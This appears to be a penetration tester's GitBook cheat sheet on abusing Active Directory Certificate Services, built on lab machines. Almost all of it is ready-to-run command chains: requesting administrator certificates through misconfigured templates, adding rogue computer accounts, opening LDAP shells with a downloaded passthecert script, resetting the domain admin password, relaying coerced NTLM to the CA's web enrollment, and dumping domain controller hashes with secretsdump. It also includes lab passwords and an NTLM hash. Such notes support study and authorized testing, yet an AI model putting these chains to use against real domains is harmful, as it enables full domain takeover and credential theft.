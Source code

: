 # Active Directory Certificate Services (ADCS)

<details>

<summary>What is it?</summary>

* Relies on **misconfigured certificate templates** that allow low-privileged users to enroll for certificates --> used to get Kerberos tickets for higher-privileged accounts

</details>

<details>

<summary>Finding if ADCS is present in domain</summary>

```
nxc ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
.\Certify.exe cas
```

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Users)</summary>

```bash
# Identify Vulnerable Templates:
.\Certify.exe find /vulnerable
```

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Use certipy-ad to request a certificate for domain admin
certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -dc-ip 10.10.11.202
```

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Download on Kali
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py

# Seperate into key and certificate files
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Passthecert using ldap-shell option
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain sequel.htb -dc-ip 10.10.11.202
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i dc.sequel.htb -u administrator
```

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Computers)</summary>

<figure><img src=".gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

```bash
# Find vulnerable certificates templates
.\Certify.exe find /vulnerable

# Checking MachineAccountQuota for svc_ldap (to add new computers)
nxc ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq

# Add new computer:
impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' htb/svc_ldap  -dc-ip 10.10.11.222

# Request certificate:
certipy-ad req -u 'myComputer$'@authority.htb -p h4x -upn administrator@authority.htb -target authority.htb -ca AUTHORITY-CA -template CorpVPN -dc-ip 10.10.11.222

# Save into key and certificate files:
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Use Pass-the-cert to obtain a LDAP shell:
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i 10.10.11.222 -u administrator
```

</details>

<details>

<summary>Exploitation (NTLM Relay to ADCS HTTP Endpoints)</summary>

```bash
# Finding ESC8 Vulnerability (Web Enrollment over HTTP)
certipy-ad find -u 'adam@corp.com' -p lab -dc-ip 192.168.167.60 -enabled
cat 20250705224614_Certipy.txt
```

<figure><img src=".gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (368).png" alt=""><figcaption><p>DomainController certificate template is a default template in ADCS and allows both Client and Server Authentication</p></figcaption></figure>

```bash
# Coerce DC (.60) to authenticate with us (.245) via NTLM, (.61) is CA --> relay authentication for certificate request:
impacket-ntlmrelayx -t http://192.168.167.61/certsrv/certfnsh.asp --adcs --template DomainController -smb2support

coercer coerce --target-ip 192.168.167.60 --l 192.168.45.245 -u adam -p lab --filter-method-name EfsRpcAddUsersToFile
```

<figure><img src=".gitbook/assets/image (369).png" alt=""><figcaption><p>Obtained a certificate based on the DomainController certificate template in a pfx format.</p></figcaption></figure>

```bash
# Authenticate to DC as DC machine account with Certipy
certipy-ad auth -pfx DC08$.pfx -dc-ip 192.168.167.60
```

<figure><img src=".gitbook/assets/image (370).png" alt=""><figcaption><p>Got DC machine account and hash</p></figcaption></figure>

```bash
impacket-secretsdump corp.com/'dc08$'@192.168.167.60 -hashes :0e0b464f36ca316cbd3170dad42bea33
```

<figure><img src=".gitbook/assets/image (371).png" alt=""><figcaption></figcaption></figure>

</details>

